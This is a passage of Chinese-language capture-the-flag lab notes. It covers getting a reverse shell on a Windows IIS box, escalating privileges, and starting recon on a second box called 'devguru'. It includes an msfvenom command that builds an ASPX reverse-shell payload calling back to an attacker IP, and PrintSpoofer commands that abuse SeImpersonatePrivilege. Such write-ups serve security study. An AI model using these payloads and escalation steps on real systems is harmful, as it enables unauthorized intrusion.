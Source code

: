 get 文件名下载到本地

![image.png](https://s2.loli.net/2025/04/20/hXO8FNGjHVafse2.png)

![image.png](https://s2.loli.net/2025/04/20/PUSc9nO71GvB8Wf.png)

## 尝试远程连接
无果 发现还是反弹shell

## msf反弹shell
编写的shell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.40.203 LPORT=8888 -f aspx -o shell3.aspx

有个要注意的就是 浏览器访问需要加个49663端口
```

![image.png](https://s2.loli.net/2025/04/26/QJ6raP13bfm7gzR.png)

查看一下可用权限

```
whoami /priv
```

![image.png](https://s2.loli.net/2025/04/26/obGv72iT6SOJRAV.png)

## 提权
滥用 SeImpersonatePrivilege 使用PrintSpoofer64.exe提权
```
dir /s /b c:\ | find "PrintSpoofer64.exe"
cd c:\inetpub\wwwroot\nt4wrksv\
PrintSpoofer64.exe -i -c cmd

```

成功提权
# devguru
## nmap 加dirb文件爆破
![image.png](https://s2.loli.net/2025/04/28/bBu8MXowxeAkmWl.png)

发现有个.git文件 就可以试试git源码泄露

## git泄漏源码
使用git-dumper工具提取出源码
![image.png](https://s2.loli.net/2025/04/29/7aqPiZof5uWjBzD.png)
